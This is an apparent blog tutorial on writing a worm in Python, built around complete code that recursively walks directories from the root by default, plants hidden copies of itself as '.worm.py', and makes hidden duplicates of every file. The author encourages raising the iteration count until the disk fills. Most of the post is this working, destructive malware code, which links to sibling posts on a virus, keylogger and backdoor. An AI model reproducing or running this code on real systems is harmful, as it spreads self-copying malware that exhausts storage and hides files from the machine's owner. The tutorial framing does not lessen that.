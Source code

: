 ```yaml
---
layout: single
title: "Write a Worm (Malware) in Python"
header:
  image: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Worm
  - Virus
  - Malware
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


`Worm` is type of malware that replicates itself and other files to consume spaces in our hard drives. You may find your drives or partitions get full without any visible reason and that might happen because of a `worm`.

A Worm is different than a computer Virus in a way that typical viruses only infects files and worms replicates files and keep the duplicates out of sight (as hidden files).

In this post, we will learn what are the characteristics of a Worm by writing a basic one in python. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [A Basic Keylogger in Python](https://shantoroy.com/security/a-simple-keylogger-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
We will need two modules to write a `worm`. Here, `os` is the most important module and we will utilize it to list all files and directories alongside retrieving the absolute paths.

`shutil` is used to copy file contents. There are obviously other ways to do it, however, I chose to do it using `shutil.copyfile()` method.
```python
import os
import shutil
```

## `Worm` Class
First, let's create a `Worm` class and a initializer method to pass initial arguments to our created class. 
```python
class Worm:
    
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list = []
        else:
            self.target_dir_list = target_dir_list
            
        if isinstance(target_dir_list, type(None)):
            self.iteration = 2
        else:
            self.iteration = iteration
        
        # get own absolute path
        self.own_path = os.path.realpath(__file__)
```

Here, we have three arguments:
* path: defines where to start looking for directories (default is set to the `root` directory `/`)
* target_dir_list: user can pass a list of initial target directories. By default it is an empty list `[]`
* iteration: I used this parameter to define how many instances the worm will create for each existing file in a directory (default value is `2` only for testing purpose, you can increase or decrease the number, or better provide valur while creating an object of the class)

### Method to list all Directories and Subdirectories
The first method we need is to list all the target directories and subdirectories where we want to copy our worm and existing files in the directories.

Here, I am avoiding hidden files as it includes the parent directories as well (hidden files starts with dot `.` in Linux or macOS). Other than that it adds a file (directories are also called as `file` in Unix-based file systems) if it is a directory and recursively does so for all of the subdirectories.
```python
    def list_directories(self,path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)
        
        for file in files_in_current_directory:
            # avoid hidden files/directories (start with dot (.))
            if not file.startswith('.'):
                # get the full path
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
```

### Method to Replicate the Worm
To replicate the script itself in all the target directories, we get the absolute path of the script we are running, and than copy the contents in the destination directories creating a new hidden file (starts with a dot `.`) with the same name.
```python
    def create_new_worm(self):
        for directory in self.target_dir_list:
            destination = os.path.join(directory, ".worm.py")
            # copy the script in the new directory with similar name
            shutil.copyfile(self.own_path, destination)
```

### Method to copy existing Files
The following method will be used to duplicate files the number of times the value we have from the `iteration` argument. You can put a large number so that the hard drive will be full soon.
```python
    def copy_existing_files(self):
        for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,("."+file+str(i)))
                        shutil.copyfile(source, destination)
```

### Method to integrate everything
In this method, we will call all of our previous methods. So, when we call this method using our created object, the worm will start all the actions sequentially. If you want a timer or datetime, you can add that functionality. Just check the post: [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/). I have added functionality in that post.
```python
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_files()
```

## Main Function
Now, let’s create our main function and run the code
```python
if __name__=="__main__":
    current_directory = os.path.abspath("")
    worm = Worm(path=current_directory)
    worm.start_worm_actions()
```
The whole code is available in [Github](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/worm/worm.py)

Here, to avoid getting our own drive filled up, let's use the existing directory only using `os.path.abspath("")`, and pass that as argument while creating an object of the `Worm` class. Finally we call the integrating method and we are good to go!

You can look at other security concept tutorials in python. I have created a repository for that. I am planning to provide security concepts by writing python codes. Please feel free to put a star if you like the repository.

[Intro to Cybersecurity in Python](https://github.com/shantoroy/intro-2-cybersecurity-in-python)

Also, the associated blog post links are available in the `ReadMe` file over there.

Have a good day! Cheers!!!
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwOTM0MjAxMjksMjk4OTMzMzU0LC0xOT
gxNzQyNjU1LDEzNTQxMTU2ODNdfQ==
-->